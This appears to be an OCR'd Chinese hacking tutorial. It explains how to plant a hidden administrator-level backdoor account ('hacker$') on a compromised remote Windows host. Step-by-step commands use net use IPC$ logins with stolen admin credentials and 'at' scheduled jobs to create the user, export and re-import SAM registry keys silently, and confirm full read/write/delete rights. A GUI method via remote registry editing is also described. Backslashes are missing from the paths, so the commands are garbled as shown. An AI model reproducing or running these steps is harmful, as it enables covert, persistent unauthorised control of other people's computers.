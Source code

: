 1、首先找到一台肉鸡，至于如何来找那不是我这里所说的话题。这里先假设找到一台超级用户为administrator,密码为12345678的肉鸡，现在我们开始在命令行下远程为它建立隐藏的超级用户。(例子中的主机是我的局域网内的一台主机，我将它的ip地址改为13.50.97.238,，请勿在互联网上对号入座,以免骚扰正常的ip地址。)

2、先与肉鸡建立连接,命令为：net use 13.50.97.238ipc$ "12345678" /user:"administrator

3、用at命令在肉鸡上建立一个用户(如果at服务没有启动，可用小榕的netsvc.exe或sc.exe来远程启动)：

at 13.50.97.238 12:51 c:winntsystem32net.exe user hacker$ 1234 /add

建立这个加有$符的用户名，是因为加有$符后，命令行下用net user将不显示这个用户，但在帐户管理器却能看到这个用户。

4、同样用at命令导出HKEY_LOCAL_MacHINEsamsamDomainsaccountusers下键值：

at 13.50.97.238 12:55 c:winntregedit.exe /e hacker.reg

HKEY_LOCAL_MACHINESAMSAMDomainsaccountusers

/e 是regedit.exe的参数，在_LOCAL_MACHINESAMSAMDomainsaccountusers这个键的一定要以结尾。必要的情况下可以用引号将“c:winntregedit.exe /e hacker.reg HKEY_LOCAL_MACHINESAMSAMDomainsaccountusers”引起来。

5、将肉鸡上的hacker.reg下载到本机上用记事本打开进行编辑命令为：

copy 13.50.97.238admin$system32hacker.reg c:hacker.reg

修改的方法图形界中已经介绍过了，这里就不作介绍了。

6、再将编辑好的hacker.reg拷回肉鸡上

copy c:hacker.reg 13.50.97.238admin$system32hacker1.reg

7、查看肉鸡时间：net time 13.50.97.238 然后用at命令将用户hacker$删除：

at 13.50.97.238 13:40 net user hacker$ /del

8、验证hacker$是否删除：用

net use 13.50.97.238 /del 断开与肉鸡的连接。

net use 13.50.97.238ipc$ "1234" /user:"hacker$" 用帐户hacker$与肉鸡连接，不能连接说明已删除。

9、再与肉鸡建立连接：net use 13.50.97.238ipc$ "12345678" /user:"administrator"

再取得肉鸡时间，用at命令将拷回肉鸡的hacker1.reg导入肉鸡注册表：

at 13.50.97.238 13:41 c:winntregedit.exe /s hacker1.reg

regedit.exe的参数/s是指安静模式。

10、再验证hacker$是否已建立，方法同上面验证hacker$是否被删除一样。

11、再验证用户hacker$是否有读、写、删的权限，如果不放心，你还可验证是否能建立其它帐户。

12、通过11可以断定用户hacker$具有超级用户权限，因为最初我用at命令建立它的时候是一个普通用户，而现在却具有远程读、写、删的权限。

**三、如果肉鸡没有开3389终端服务，而我又不想用命令行，怎么办?**

这种情况下，你也可以用界面方式来远程为肉鸡建立隐藏的超级用户。因为regedit.exe、regedt32.exe都有连接网络注册表的功能，你可以用regedt32.exe来为远程主机的注册表项设置权限，用regedit.exe来编辑远程注册表。帐户管理器也有一项连另一台计算机的功能，你可以用帐户管理器为远程主机建立和删除帐户。具体步聚与上面介绍的相似，我就不多说了，只它的速度实在是令人难以忍受。

是这里有两个前提：1、先用net use 肉鸡ipipc$ "密码" /user:"超级用户名"来与远程主机建立连接以后，才能用regedit.exe regedt32.exe及帐户管理器与远程主机连接。

2、远程主机必须开启远程注册表服务(没有开启的话，你也可以远程开启，因为你有超级用户的密码了)。
